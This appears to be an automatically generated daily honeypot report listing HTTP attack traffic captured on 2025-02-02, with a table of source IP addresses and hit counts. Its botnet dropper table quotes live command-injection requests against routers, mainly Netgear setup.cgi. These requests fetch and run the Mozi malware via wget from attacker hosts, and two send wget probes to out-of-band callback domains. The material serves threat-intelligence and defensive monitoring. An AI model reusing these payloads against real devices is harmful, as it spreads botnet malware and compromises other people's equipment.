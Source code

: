 ```yaml
---
title: "Report: 2025-02-02 "
date: 2025-02-02
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-02
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr    | request                                                                                                                                                                   |
|---:|:---------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 36.49.65.2     | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://36.49.65.2:47727/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
|  1 | 222.141.154.10 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                     |
|  2 | 34.133.136.104 | mac=1&ip=127.0.0.1|wget cufanednlodcre1u5ht0d143e3ec4uq5e.oast.site                                                                                                       |
|  3 | 34.133.136.104 | mac=1&ip=127.0.0.1|wget cufanednlodcre1u5ht05e4bdkahyuxpm.oast.site                                                                                                       |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                    45 | 209.38.122.180  |
|   1 |                    38 | 78.153.140.179  |
|   2 |                    17 | 45.148.10.242   |
|   3 |                    17 | 195.3.223.55    |
|   4 |                    12 | 78.153.140.93   |
|   5 |                    12 | 192.241.241.194 |
|   6 |                    12 | 104.234.115.51  |
|   7 |                    12 | 146.190.231.58  |
|   8 |                    11 | 45.79.102.253   |
|   9 |                    11 | 45.33.91.211    |
|  10 |                    10 | 206.81.9.191    |
|  11 |                     9 | 179.43.191.146  |
|  12 |                     9 | 3.144.180.133   |
|  13 |                     9 | 146.19.24.168   |
|  14 |                     8 | 34.133.136.104  |
|  15 |                     8 | 164.52.24.188   |
|  16 |                     7 | 45.144.212.139  |
|  17 |                     6 | 45.95.169.130   |